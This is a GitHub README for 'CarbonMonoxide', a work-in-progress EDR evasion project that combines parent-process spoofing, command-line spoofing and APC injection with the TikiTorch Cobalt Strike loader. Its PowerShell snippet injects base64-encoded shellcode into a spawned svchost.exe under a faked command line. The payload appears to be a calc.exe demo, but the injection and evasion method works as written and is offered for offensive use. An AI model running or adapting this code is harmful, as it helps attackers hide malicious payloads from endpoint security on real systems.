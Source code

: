 # CarbonMonoxide
EDR Evasion - Combination of SwampThing - TikiTorch

Work in progess.

Essentially combining these elements:

```
1. PPID Spoofing
2. CmdLine Spoofing
3. QAPC Injection
4. TikiTorch (Cobalt Strike Agressor Script)

```

Its a bit easier than I thought. I went ahead and submitted a PR request.  The code here is just fragments. 

https://github.com/rasta-mouse/TikiTorch/pull/13

See this for example.

After experimentation, I settled on c# Optional Parameters to satsify this requirement.

```
$shellcodeTxt = "/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu/C1olZBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY2FsYy5leGUA"

Add-Type -Path "C:\Users\mobile\Downloads\CarbonMonoxide\TikiTorch-master\TikiLoader\bin\Release\TikiLoader.dll"

[TikiLoader.Injector]::QUAPCInject("C:\windows\system32\svchost.exe",[System.Convert]::Frombase64String($shellcodeTxt), $pid, "svchost.exe -k netsvcs BLAHDEBLAH")

```



Sysmon


Just an example of how to use. You can choose whatever parameters you like for the starting process.

xref: [How to Argue like Cobalt Strike](https://blog.xpnsec.com/how-to-argue-like-cobalt-strike/)

